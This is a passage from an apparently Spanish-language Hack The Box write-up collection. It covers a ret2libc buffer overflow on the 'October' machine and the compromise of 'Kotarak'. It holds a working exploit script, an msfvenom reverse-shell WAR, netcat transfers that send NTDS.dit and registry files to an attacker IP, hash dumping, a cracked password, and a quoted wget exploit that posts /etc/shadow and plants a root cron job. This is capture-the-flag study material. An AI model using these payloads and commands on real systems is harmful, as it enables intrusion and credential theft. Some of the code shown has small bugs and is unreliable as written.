\OperatorTok{>} \ExtensionTok{r} \VariableTok{$(}\ExtensionTok{python}\NormalTok{ -c }\StringTok{'print "A"*500'}\VariableTok{)}
\end{Highlighting}
\end{Shaded}

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/October-EBP-EIP-overwrite} \caption{EBP EIP overwrite}\label{fig:unnamed-chunk-53}
\end{figure}

Aqui vemos que el registrop EBP y EIP han sido sobre escribido.

\hypertarget{buscando-el-tamauxf1o-antes-de-sobre-escribir-el-eip}{%
\subsubsection*{Buscando el tamaño antes de sobre escribir el EIP}\label{buscando-el-tamauxf1o-antes-de-sobre-escribir-el-eip}}
\addcontentsline{toc}{subsubsection}{Buscando el tamaño antes de sobre escribir el EIP}

Creamos un patron con peda

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{>} \ExtensionTok{pattern_create}\NormalTok{ 500}
\ExtensionTok{gdb-peda}\NormalTok{$ pattern_create 500}
\StringTok{'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAg}
\StringTok{AA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAA}
\StringTok{wAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%J}
\StringTok{A%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%u}
\StringTok{A%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3As}
\StringTok{IAseAs4AsJAsfAs5AsKAsgAs6A'}

\OperatorTok{>} \ExtensionTok{r} \StringTok{'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAA}
\StringTok{wAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%u}
\StringTok{A%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'}
\end{Highlighting}
\end{Shaded}

Si le damos a \texttt{p\ \$eip} ya sabemos que es el valor del eip en este caso \texttt{0x41384141}. Ya podemos calcular el offset.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{pattern_offset}\NormalTok{ 0x41384141}
\end{Highlighting}
\end{Shaded}

ya nos dice que el offset es de 112.

Lo comprobamos poniendo 112 A y 4 B.

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{>} \ExtensionTok{r} \VariableTok{$(}\ExtensionTok{python}\NormalTok{ -c }\StringTok{'print "A"*112 + "B"*4)}
\end{Highlighting}
\end{Shaded}

Aqui ya vemos que el EIP vale \texttt{0x42424242} que son 4 B en hexadecimal

\hypertarget{buscando-la-direccion-despues-del-registro-eip}{%
\subsubsection*{Buscando la direccion despues del registro EIP}\label{buscando-la-direccion-despues-del-registro-eip}}
\addcontentsline{toc}{subsubsection}{Buscando la direccion despues del registro EIP}

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{>} \ExtensionTok{r} \VariableTok{$(}\ExtensionTok{python}\NormalTok{ -c }\StringTok{'print "A"*112 + "B"*4 + "C"*200)}
\StringTok{> x/80wx $esp}
\end{Highlighting}
\end{Shaded}

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/October-esp_entries} \caption{ESP Entries}\label{fig:unnamed-chunk-54}
\end{figure}

La idea seria de appuntar el EIP a la direccion \texttt{0xbf8d5310} y cambiar los C por codigo malicioso pero si miramos
las proteccionnes del programa con

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{>} \ExtensionTok{checksec}
\end{Highlighting}
\end{Shaded}

Vemos que el NX esta Enabled. El NX tambien llamado DEP (Data Execution Prevention) es una proteccion que deshabilita la
ejecucion de codigo en la pila, esto significa que si le ponemos codigo malicioso en el EIP, el flujo del programa no lo
va a ejecutar.

Como no se puede ejecutar nada directamente en la pila, tenemos que mirar las libraries compartidas del programa para ver
si podemos llamar a otra cosa que la propria pila.

\hypertarget{buscando-librerias-compartidas}{%
\subsubsection*{Buscando librerias compartidas}\label{buscando-librerias-compartidas}}
\addcontentsline{toc}{subsubsection}{Buscando librerias compartidas}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ldd}\NormalTok{ /usr/local/bin/ovrflw}
    \ExtensionTok{linux-gate.so}
    \ExtensionTok{libc.so.6}
    \ExtensionTok{/lib/ld-linux.so.2}
\end{Highlighting}
\end{Shaded}

Aqui la libreria \texttt{libc.so} esta interesante porque nos permitiria ejecutar commandos a nivel de systema. Y si recordamos bien,
el binario ovrflw tiene permisos SUID.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ldd}\NormalTok{ /usr/local/bin/ovrflw}
\FunctionTok{ldd}\NormalTok{ /usr/local/bin/ovrflw }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ libc}
\FunctionTok{ldd}\NormalTok{ /usr/local/bin/ovrflw }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ libc }\KeywordTok{|} \FunctionTok{awk} \StringTok{'NF\{print $NF\}'}
\FunctionTok{ldd}\NormalTok{ /usr/local/bin/ovrflw }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ libc }\KeywordTok{|} \FunctionTok{awk} \StringTok{'NF\{print $NF\}'} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'()'}
\end{Highlighting}
\end{Shaded}

Aqui vemos la direccion de la libreria \texttt{0xb758a000}

Miramos si la direccion cambia a cada ejecucion

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{for} \ExtensionTok{i}\NormalTok{ in }\VariableTok{$(}\FunctionTok{seq}\NormalTok{ 10}\VariableTok{)}\KeywordTok{;} \KeywordTok{do} \FunctionTok{ldd}\NormalTok{ /usr/local/bin/ovrflw }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ libc }\KeywordTok{|} \FunctionTok{awk} \StringTok{'NF\{print $NF\}'} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'()'}\KeywordTok{;} \KeywordTok{done}
\end{Highlighting}
\end{Shaded}

Aqui vemos que la direccion esta cambiando. Pero si cojemos una de la direcciones por ejemplo la \texttt{0xb75e7000} y la grepeamos
al bucle

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{for} \ExtensionTok{i}\NormalTok{ in }\VariableTok{$(}\FunctionTok{seq}\NormalTok{ 10}\VariableTok{)}\KeywordTok{;} \KeywordTok{do} \FunctionTok{ldd}\NormalTok{ /usr/local/bin/ovrflw }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ libc }\KeywordTok{|} \FunctionTok{awk} \StringTok{'NF\{print $NF\}'} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'()'}\KeywordTok{;} \KeywordTok{done} \KeywordTok{|} \FunctionTok{grep} \StringTok{"0xb75e7000"}
\end{Highlighting}
\end{Shaded}

nos damos cuenta que esta direccion apparece multiples vecez. Esto pasa porque estamos frente una maquina de 32 bits.

\hypertarget{la-technica-ret2libc}{%
\subsubsection*{La technica ret2libc}\label{la-technica-ret2libc}}
\addcontentsline{toc}{subsubsection}{La technica ret2libc}

La technica ret2libc es una technica que funcciona de una manera muy sencilla y es poniendole la direccion de la funccion system, seguida de la funccion
exit sequida de la funccion que queremos lanzar con la libreria en nuestro caso un /bin/sh.

Para encontrar la direccionnes de estas funcciones, primero tenemos que encontrar el offset que seria la differencia entre la posicion de la funccion con la
posicion de la libreria. Esto quiere decir que si sumamos los dos, conocemos la direccion de las differentes funccionnes.

Para conocer el offset, utilizamos la utilidad readelf:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Buscamos el offset del commado \textbf{system} de la libreria libc.so

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{readelf}\NormalTok{ -s /lib/i386-linux-gnu/libc.so.6 }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -E }\StringTok{"system"}
\end{Highlighting}
\end{Shaded}
\item
  Buscamos el offset del commando \textbf{exit} de la misma libreria

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{readelf}\NormalTok{ -s /lib/i386-linux-gnu/libc.so.6 }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -E }\StringTok{"exit"}
\end{Highlighting}
\end{Shaded}
\item
  Buscamos el offset del commando \textbf{/bin/sh} en la misma libreria

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{readelf}\NormalTok{ -s /lib/i386-linux-gnu/libc.so.6 }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -E }\StringTok{"/bin/sh"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

los offsets encontrados en este caso son:

\begin{itemize}
\tightlist
\item
  system : 00040310
\item
  exit : 00033260
\item
  /bin/sh : 162bac
\end{itemize}

La utilidad readelf nos permitte ver el offset de estos commandos de manera a que si sumamos la direccion de la libreria libc.so
al offset, conocemos la direccion exacta de los differentes commandos.

Una vez connocemos estas direcciones, utilizaremos la techniqua ret2libc para ejecutar el commando /bin/sh como root.

\hypertarget{creamos-el-exploit-en-python}{%
\subsubsection*{Creamos el exploit en python}\label{creamos-el-exploit-en-python}}
\addcontentsline{toc}{subsubsection}{Creamos el exploit en python}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ signal}
\ImportTok{from}\NormalTok{ struct }\ImportTok{import}\NormalTok{ pack}
\ImportTok{from}\NormalTok{ subprocess }\ImportTok{import}\NormalTok{ call}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{#Ctrl_C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\KeywordTok{def}\NormalTok{ exploit():}
\NormalTok{    base_libc_address }\OperatorTok{=} \BaseNTok{0xb75e7000}

\NormalTok{    system_address_offset }\OperatorTok{=} \BaseNTok{0x00040310}
\NormalTok{    exit_address_offset }\OperatorTok{=} \BaseNTok{0x00033260}
\NormalTok{    bin_sh_address_offset }\OperatorTok{=} \BaseNTok{0x00162bac}

\NormalTok{    system_address }\OperatorTok{=}\NormalTok{ pack(}\StringTok{"<I"}\NormalTok{, base_libc_address }\OperatorTok{+}\NormalTok{ system_address_offset)}
\NormalTok{    exit_address }\OperatorTok{=}\NormalTok{ pack(}\StringTok{"<I"}\NormalTok{, base_libc_address }\OperatorTok{+}\NormalTok{ exit_address_offset)}
\NormalTok{    bin_sh }\OperatorTok{=}\NormalTok{ pack(}\StringTok{"<I"}\NormalTok{, base_libc_address }\OperatorTok{+}\NormalTok{ bin_sh_address_offset)}

\NormalTok{    offset }\OperatorTok{=} \DecValTok{112}
\NormalTok{    before_eip }\OperatorTok{=}\NormalTok{ b}\StringTok{"A"}\OperatorTok{*}\NormalTok{offset}
\NormalTok{    eip }\OperatorTok{=}\NormalTok{ system_address }\OperatorTok{+}\NormalTok{ exit_address }\OperatorTok{+}\NormalTok{ bin_sh}

\NormalTok{    payload }\OperatorTok{=}\NormalTok{ before_eip }\OperatorTok{+}\NormalTok{ eip }\OperatorTok{+}\NormalTok{ after_eip}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}
\NormalTok{    payload }\OperatorTok{=}\NormalTok{ exploit()}

    \ControlFlowTok{while} \VariableTok{True}\NormalTok{:}
\NormalTok{        response }\OperatorTok{=}\NormalTok{ call([}\StringTok{"/usr/local/bin/ovrflw"}\NormalTok{, payload])}

        \ControlFlowTok{if}\NormalTok{ response }\OperatorTok{==} \DecValTok{0}\NormalTok{:}
            \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{            sys.exit(}\DecValTok{1}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

En este script podemos ver que el valor que queremos dar al EIP es el \textbf{ret2libc} (system address + exit address + /bin/sh address).

Si lanzamos el script \texttt{python3\ exploit.py}, va a tardar un poco. Tardara finalmente el tiempo que la direccion de la libreria libc sea la misma
que la que hemos puesto en el script.

Ya vemos que nos entabla un /bin/sh y \texttt{whoami} -\textgreater{} root.

\hypertarget{kotarak}{%
\chapter*{Kotarak}\label{kotarak}}
\addcontentsline{toc}{chapter}{Kotarak}

\hypertarget{introduccion-23}{%
\section*{Introduccion}\label{introduccion-23}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 17/08/2021 se llama Kotarak.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=PaLGNg2k8Zs}{\includegraphics{https://img.youtube.com/vi/PaLGNg2k8Zs/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-23}{%
\section*{Enumeracion}\label{enumeracion-23}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-23}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-23}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-23}{%
\subsubsection*{Ping}\label{ping-23}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.55}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-23}{%
\subsubsection*{Nmap}\label{nmap-23}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.55}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.55 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,8009,8080,60000, 10.10.10.55 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
8009 & tcp ajp13 & Web, Fuzzing &\tabularnewline
8080 & http tomcat & Web, Fuzzing &\tabularnewline
60000 & http apache & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-9}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-9}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-17}{%
\subsubsection*{Whatweb}\label{whatweb-17}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.55:8080}
\end{Highlighting}
\end{Shaded}

Nada interressante aqui

\hypertarget{checkear-la-web-por-los-differentes-puertos}{%
\subsubsection*{Checkear la web por los differentes puertos}\label{checkear-la-web-por-los-differentes-puertos}}
\addcontentsline{toc}{subsubsection}{Checkear la web por los differentes puertos}

\begin{itemize}
\tightlist
\item
  El puerto 8009 no sale Nada.
\item
  El puerto 8080 nos saca un 404
\item
  El puerto 60000 nos sale una pagina
\end{itemize}

La pagina en el puerto 60000 parece ser un web browser que podriamos utilizar para navigar sobre otras paginas web de manera anonyma.

Creamos nuestro proprio servidor web para ver lo que pasa.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{vi}\NormalTok{ index.html}

\ExtensionTok{Hola}\NormalTok{, Vodafone apestais y sois los peores....}
\end{Highlighting}
\end{Shaded}

Compartimos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ http.server 80}
\end{Highlighting}
\end{Shaded}

Si desde la web lanzamos un \texttt{http://10.10.14.6} vemos nuestra pagina web. Intentamos crear una pagina php pero no funcciona.

\hypertarget{vulnerability-assessment-10}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-10}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{html-injection-xss-y-ssrf}{%
\subsection*{HTML Injection, XSS y SSRF}\label{html-injection-xss-y-ssrf}}
\addcontentsline{toc}{subsection}{HTML Injection, XSS y SSRF}

Intentamos con etiquetas html y script\ldots{} vemos que el servicio es vulnerable a html injection y XSS pero no podemos hacer muchas cosas con esto.

Vamos a ver si es vulnerable a un \textbf{SSRF} (Server Side Request Forgery). Si le ponemos \texttt{localhost:22} la pagina nos reporta la cabezera des servicio
ssh. Vamos aqui a utilizar WFUZZ para enumerar los puertos internos que estan abiertos.

\hypertarget{uzando-wfuzz-para-enumerar-los-puertos-internos-abiertors}{%
\subsubsection*{Uzando WFUZZ para enumerar los puertos internos abiertors}\label{uzando-wfuzz-para-enumerar-los-puertos-internos-abiertors}}
\addcontentsline{toc}{subsubsection}{Uzando WFUZZ para enumerar los puertos internos abiertors}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -z range,1-65535 }\StringTok{"http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ"}
\end{Highlighting}
\end{Shaded}

Aqui vemos que hay muchas respuestas que nos dan 2 caracteres de respuesta y esto lo vamos a ocultar.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hh=2 --hc=404 -z range,1-65535 }\StringTok{"http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ"}
\end{Highlighting}
\end{Shaded}

Aqui vemos muchos puertos addicionales que no nos reporto el scanning de NMAP como los puertos

\begin{itemize}
\tightlist
\item
  320
\item
  90
\item
  888
\item
  110
\item
  200
\item
  3306 (mysql)
\end{itemize}

Verificamos estos puertos con la web y encontramos cosas muy interesante como un panel de administracion en el puerto 320 y un listador
de ficheros en el puerto 888. Encontramos un fichero backup y lo miramos desde la web \texttt{http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup}
y mirando el codigo fuente encontramos informaciones muy interesante en el XML. Vemos un usuario admin y su contraseña.

Como vemos que el fichero XML es un fichero de configuracion tomcat miramos si las credenciales son validas en el servicio del puerto 8080

\hypertarget{vuln-exploit-gaining-access-10}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-10}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{conneccion-en-el-panel-de-administracion-de-tomcat}{%
\subsection*{Conneccion en el panel de administracion de Tomcat}\label{conneccion-en-el-panel-de-administracion-de-tomcat}}
\addcontentsline{toc}{subsection}{Conneccion en el panel de administracion de Tomcat}

Como todos los servicios tomcat, el panel de administracion se encuentra en la routa \texttt{/manager/html}

lo miramos en la url \texttt{http://10.10.10.55:8080/manager/html}

Una vez ganado el accesso al panel de administracion de tomcat, ya savemos que podemos subir un \textbf{war}
malicioso.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfvenom}\NormalTok{ -l payload }\KeywordTok{|} \FunctionTok{grep} \StringTok{"jsp"}
\ExtensionTok{msfvenom}\NormalTok{ -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f war -o reverse.war}
\end{Highlighting}
\end{Shaded}

subimos el fichero en la web.

Nos ponemos en escucha con netcat por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}

Pinchamos el fichero reverse.war y vemos que ya hemos ganado acceso al systema

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}

\OperatorTok{>} \ExtensionTok{tomcat}
\end{Highlighting}
\end{Shaded}

\hypertarget{tratamiento-de-la-tty-13}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-13}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{which}\NormalTok{ python}
\ExtensionTok{python}\NormalTok{ -c }\StringTok{'import pty;pty.spawn("/bin/bash")'}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Dandole a \texttt{cd\ /home} vemos que hay dos usuarios tomcat y atanas

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{find}\NormalTok{ \textbackslash{}-name user.txt }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{xargs}\NormalTok{ cat}
\end{Highlighting}
\end{Shaded}

Vemos que la flag esta en el directorio \textbf{atanas} y que no podemos leer la flag

\hypertarget{user-pivoting-al-usuario-atanas}{%
\subsection*{User pivoting al usuario atanas}\label{user-pivoting-al-usuario-atanas}}
\addcontentsline{toc}{subsection}{User pivoting al usuario atanas}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ tomcat}
\FunctionTok{ls}\NormalTok{ -la}
\BuiltInTok{cd}\NormalTok{ to_archive}
\FunctionTok{ls}\NormalTok{ -la}
\BuiltInTok{cd}\NormalTok{ pentest_data}
\FunctionTok{ls}\NormalTok{ -la}
\FunctionTok{file}\NormalTok{ *}
\end{Highlighting}
\end{Shaded}

Aqui vemos que hay dos ficheros y con el commando \texttt{file} vemos que hay un fichero data y un MS Windows registry file NT/2000.
Nos traemos estos dos ficheros a nuestro equipo de atacante.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ ntds.bin}
\end{Highlighting}
\end{Shaded}
\item
  en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.6 443 }\OperatorTok{<}\NormalTok{ 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin}
\end{Highlighting}
\end{Shaded}
\item
  en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ ntds.dit}
\end{Highlighting}
\end{Shaded}
\item
  en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.6 443 }\OperatorTok{<}\NormalTok{ 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{recuperando-hashes-nt-desde-ficheros-active-directories}{%
\subsubsection*{Recuperando hashes nt desde ficheros Active Directories}\label{recuperando-hashes-nt-desde-ficheros-active-directories}}
\addcontentsline{toc}{subsubsection}{Recuperando hashes nt desde ficheros Active Directories}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mv}\NormalTok{ ntds.dit ntds}
\FunctionTok{mv}\NormalTok{ ntds.bin SYSTEM}
\ExtensionTok{impacket-secretsdump}\NormalTok{ -ntds ntds -system SYSTEM LOCAL}
\end{Highlighting}
\end{Shaded}

Aqui copiamos los diferentes hashes en un fichero llamado hash

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Kotrarak-hashes} \caption{hashes ntds}\label{fig:unnamed-chunk-55}
\end{figure}

cat hash \textbar{} awk `\{print \$4\}' FS=``:'' y copiamos los hashes en la pagina \href{https://crackstation.net/}{crack station}

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Kotarak-crackstation} \caption{hashes crackstation}\label{fig:unnamed-chunk-56}
\end{figure}

intentamos las contraseñas para pasar al usuario atanas

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{su}\NormalTok{ atanas}
\ExtensionTok{Password}\NormalTok{: f16tomcat!}
\FunctionTok{whoami}
\OperatorTok{>} \ExtensionTok{atanas}
\end{Highlighting}
\end{Shaded}

y ya podemos ver la flag

\hypertarget{privilege-escalation-9}{%
\section*{Privilege Escalation}\label{privilege-escalation-9}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-18}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-18}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /root}
\FunctionTok{cat}\NormalTok{ flag.txt}
\end{Highlighting}
\end{Shaded}

Hemos podido entrar en el repertorio root pero la flag no es la buena. Hay un fichero app.log y vemos que hay una tarea
que parece que se lanza cada 2 minutos y que nos hace un GET desde la maquina 10.0.3.133 a la maquina victima.

Intentamos ponernos en escucha al puerto 80 con ncat pero tenemos un Permission denied. Miramos si la utilidad authbind esta installada porque
authbind es un binario que permite a un usuario con bajos privilegios de ponerse en escucha por un puerto definido.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{which}\NormalTok{ authbind}
\FunctionTok{ls}\NormalTok{ -la /etc/authbind/byport}
\end{Highlighting}
\end{Shaded}

Aqui vemos que hay dos puertos el 21 y el 80.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{authbind}\NormalTok{ nc -nlvp 80}
\end{Highlighting}
\end{Shaded}

Ya vemos que la tarea sigue siendo ejecutada y vemos que la maquina 10.0.3.133 utiliza una version de Wget que esta desactualizada.

Miramos si existe un exploit para esta version

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ wget 1.16}
\end{Highlighting}
\end{Shaded}

y vemos que hay un Arbitrary File Upload / Remote Code Execution.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -x 40064}
\end{Highlighting}
\end{Shaded}

Seguimos por pasos la explicacion del exploit

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  creamos un fichero .wgetrc y le insertamos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat} \OperatorTok{<<_EOF_>}\ExtensionTok{.wgetrc}
\NormalTok{post_file = /etc/shadow}
\NormalTok{output_document = /etc/}\OperatorTok{c}\ExtensionTok{ron.d/wget-root-shell}
\NormalTok{_EOF_}
\end{Highlighting}
\end{Shaded}
\item
  creamos un script en python

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/env python}

\CommentTok{#}
\CommentTok{# Wget 1.18 < Arbitrary File Upload Exploit}
\CommentTok{# Dawid Golunski}
\CommentTok{# dawid( at )legalhackers.com}
\CommentTok{#}
\CommentTok{# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt}
\CommentTok{#}
\CommentTok{# CVE-2016-4971}
\CommentTok{#}

\ImportTok{import}\NormalTok{ SimpleHTTPServer}
\ImportTok{import}\NormalTok{ SocketServer}
\ImportTok{import}\NormalTok{ socket}\OperatorTok{;}

\KeywordTok{class}\NormalTok{ wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):}
\KeywordTok{def}\NormalTok{ do_GET(}\VariableTok{self}\NormalTok{):}
    \CommentTok{# This takes care of sending .wgetrc}

    \BuiltInTok{print} \StringTok{"We have a volunteer requesting "} \OperatorTok{+} \VariableTok{self}\NormalTok{.path }\OperatorTok{+} \StringTok{" by GET :)}\CharTok{\textbackslash{}n}\StringTok{"}
    \ControlFlowTok{if} \StringTok{"Wget"} \KeywordTok{not} \KeywordTok{in} \VariableTok{self}\NormalTok{.headers.getheader(}\StringTok{'User-Agent'}\NormalTok{):}
    \BuiltInTok{print} \StringTok{"But it's not a Wget :( }\CharTok{\textbackslash{}n}\StringTok{"}
        \VariableTok{self}\NormalTok{.send_response(}\DecValTok{200}\NormalTok{)}
        \VariableTok{self}\NormalTok{.end_headers()}
